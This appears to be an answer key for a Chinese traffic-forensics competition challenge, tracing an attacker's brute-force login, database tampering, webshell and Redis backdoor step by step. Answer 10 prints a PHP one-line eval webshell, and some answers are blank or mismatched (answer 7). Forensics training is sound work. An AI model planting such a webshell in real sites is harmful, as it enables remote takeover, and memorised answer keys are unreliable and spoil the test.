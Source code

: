 数据赛第三题
---
N-EM-00003
黑客团伙采用爆破的方法控制了一台外网web服务器 , 并且以此为跳板 , 进入了企业的内部网络 , 获得了企业内网的权限 , 并且植入了后门 , 达到长期控制的目的 , 你现在获得了攻击时间段所有的流量包 , 请基于次分析溯源黑客在攻击过程中做了那些操作 ?
1. 攻击者IP是多少 ? 
```
172.16.10.112
```
2. 攻击者发送给服务器的第一个HTTP请求的时间是 ? 
```
11:58:45
```
3. 黑客第一次成功登录目标服务器后台的账号和密码是 ? 
```
admin:admin123
```
4. 爆破出正确的目标服务器 admin 的密码前面 , 总共尝试爆破了几次 ? 
```
3
```
5. 黑客是什么时候对网站开始目录扫描的 ? 
```
12:05:48
```
6. 黑客在成功登录phpmyadmin前手工尝试了几个错误密码 ?
```
4
```
7. 目标网站 admin 用户的密文是什么 ?
```
root:root
```
8. 目标网站 mtfly 用户在数据库中的密码的密文是什么 ? 
```
$P$BCIX.GHuePX.kNtTjEWd6QCnzYFzrT1
```
9. 黑客修改了 mtfly 的密码密文为 ?
```
e10adc3949ba59abbe56e057f20f883e
```
10. 黑客写入目标服务器的一句话木马是 ? 
```
<?php eval($_POST[ge]);>
```
11. 网站根目录的绝对目录是什么 ?
```
C:\phpStudy\WWW\
```
12. 黑客执行 whoami 后的命令是什么 ? 
```
systeminfo
```
13. 目标服务器操作系统的 administrator 的密码是什么 ? 
```
Simplexue123
```
14. 黑客在目标服务器上植入了一个木马 , 木马上线的端口是什么 ? 
```

```
15. redis 的监听端口是 ? 
```
8889
```
16. redis 第一次被连接的时间 ? 
```
12:45:28
```
17. 黑客在 redis 服务器上下载了一个后门文件 , 请问下载的地址是什么 ?
```
```
